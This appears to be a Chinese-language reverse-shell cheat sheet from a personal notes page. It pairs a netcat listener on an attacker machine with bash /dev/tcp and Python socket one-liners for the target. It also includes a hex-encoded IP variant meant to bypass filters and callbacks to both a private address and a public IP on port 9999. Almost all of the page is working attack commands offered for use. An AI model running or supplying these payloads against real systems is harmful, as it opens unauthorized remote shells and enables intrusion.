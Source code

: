 # 反弹 shell

> TIME : 2024-07-22
> TAGS : Shell

攻击机为 A, ip: `192.168.1.50` ; 十六进制: `0xc0.0xa8.0x03.0x32`

目标机为 B, ip: `192.168.1.51` ; 十六进制: `0xc0.0xa8.0x03.0x33`

攻击机 A:

```bash
nc -lvvp 2333
```

## Bash

目标机 B:

```bash
bash -i >& /dev/tcp/192.168.1.50/2333 0>&1

# 或

bash -c "bash -i >& /dev/tcp/192.168.1.50/2333 0>&1"
# bash -c "bash -i >& /dev/tcp/112.124.5.76/9999 0>&1"

# 或 十六进制绕过

bash -i >& /dev/tcp/0xc0.0xa8.0x03.0x32/2333 0>&1
```

## python

目标机 B:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.50",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("112.124.5.76",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
